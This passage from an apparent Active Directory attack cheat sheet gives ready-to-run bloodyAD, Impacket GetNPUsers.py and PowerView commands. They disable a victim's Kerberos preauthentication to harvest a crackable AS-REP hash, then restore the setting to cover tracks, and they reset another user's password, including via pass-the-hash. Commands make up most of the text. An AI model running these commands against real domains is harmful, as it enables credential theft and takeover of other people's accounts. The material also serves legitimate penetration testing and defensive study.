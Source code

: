   ```powershell

  # Create a new credential object with the target's Credentials
  $Cred2 = New-Object System.Management.Automation.PSCredential(<domain\username'>, $TargetPass)
  ```

We can change a victim's **userAccountControl** to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back.

* Windows/Linux:

  ```ps1
  # Modify the userAccountControl
  $ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] add uac [Target_User] -f DONT_REQ_PREAUTH

  # Grab the ticket
  $ GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

  # Set back the userAccountControl
  $ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] remove uac [Target_User] -f DONT_REQ_PREAUTH
  ```

* Windows only:

  ```ps1
  # Modify the userAccountControl
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose

  # Grab the ticket
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username

  # Set back the userAccountControl
  PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
  PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
  ```

Reset another user's password.

* Windows/Linux:

  ```ps1
  # Using bloodyAD with pass-the-hash
  bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password john.doe 'Password123!'
  ```

* Windows only:

  ```ps1
  # https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
  $user = 'DOMAIN\user1'; 
  $pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
  $creds = New-Object System.Management.Automation.PSCredential $user, $pass;
  $newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
  Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
  ```
